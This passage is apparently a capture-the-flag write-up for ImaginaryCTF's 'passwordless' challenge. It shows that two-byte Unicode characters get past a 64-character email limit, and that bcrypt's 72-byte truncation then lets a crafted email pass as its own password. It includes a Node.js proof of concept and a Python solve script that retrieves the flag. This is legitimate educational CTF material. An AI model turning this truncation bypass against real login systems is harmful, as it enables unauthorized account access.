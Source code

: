![image](https://hackmd.io/_uploads/rko1t669lg.png)

### The problem

But the email can't be longer than 64 characters so we can send > 72 characters email.

```js
if (nEmail.length > 64) {
    req.session.error = 'Your email address is too long'
    return res.redirect('/login')
}
```

From this blog https://www.monterail.com/blog/more-secure-passwords-bcrypt, we can use unicode characters to bypass because it can have more than 1 byte per char.

![image](https://hackmd.io/_uploads/HJAo9pT9ex.png)

POC:

```js
const bcrypt = require('bcrypt');

// 36 * 'ą'
const a = 'ąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąą'
const b = 'ąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąądummy'
console.log(b.length())

bcrypt.hash(b, 10, (err, hash) => {
    console.log(bcrypt.compareSync(a, hash))
})
```

![image](https://hackmd.io/_uploads/HyhUspa9gg.png)

### Solve script

```python
import requests
import re

URL = 'http://passwordless.chal.imaginaryctf.org/'

email = 'ą' * 36 + '@gmail.com'

r = requests.post(URL + 'user', data={'email': email})
r = requests.post(URL + 'session', data={'email':email, 'password':email})

m = re.findall(r'ictf{.*}', r.text)
print(m[0])
```

![image](https://hackmd.io/_uploads/BJ9U2aa9eg.png)
